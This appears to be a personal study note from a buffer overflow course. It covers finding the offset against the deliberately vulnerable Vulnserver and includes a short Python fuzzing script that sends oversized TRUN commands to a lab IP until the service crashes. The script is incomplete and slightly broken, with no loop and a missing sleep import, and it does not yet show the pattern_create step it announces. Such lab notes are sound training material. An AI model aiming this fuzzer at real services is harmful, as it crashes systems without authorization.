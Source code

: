 
# Finding the Offset w/ Pattern Create
Now that we know our offset from [fuzzing](PEH/buffer-overflows/fuzzing.md) the program, we can use [pattern create](../../../cybersecurity/TTPs/exploitation/tools/pattern-create.md) to help fine-tune our exploit script and payload.

**![See Pattern Create](../../../cybersecurity/TTPs/exploitation/tools/pattern-create.md)
** (relative)
[Pattern Create](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/pattern-create.md) (GitHub repo)**
## Finding the **EXACT** Address
Now that we've created a buffer string with `pattern_create` we can copy paste our fuzzing script into a new script (which will become our exploit as we fine tune it).
```python
import sys, socket

# Create the buffer of 'A' characters
buffer = "A" * 100

try:
	# Build the payload by appending the TRUN command to the buffer
	payload = "TRUN /.:/" + buffer

	# Create, open, and connect to the socket (connecting to target)
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.35',9999))

	# Send the payload to target
	print ("[+] Sending the payload...\n" + str(len(buffer)))
	s.send(payload)
	
	# Close connection and what 1 second
	s.close()
	sleep(1)

	# (if we haven't crashed) increase buffer length by 100 bytes & try again
	buffer = buffer + "A"*100
except:
	# When the target crashes, print the number of bytes it took
	print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
	sys.exit()
```

> [!Resources]
> -  [Vulnserver](https://thegreycorner.com/vulnserver.html) 
> - [Immunity Debugger](https://www.immunityinc.com/products/debugger/) 
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
> - My [writeup on basic buffer overflow](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow)
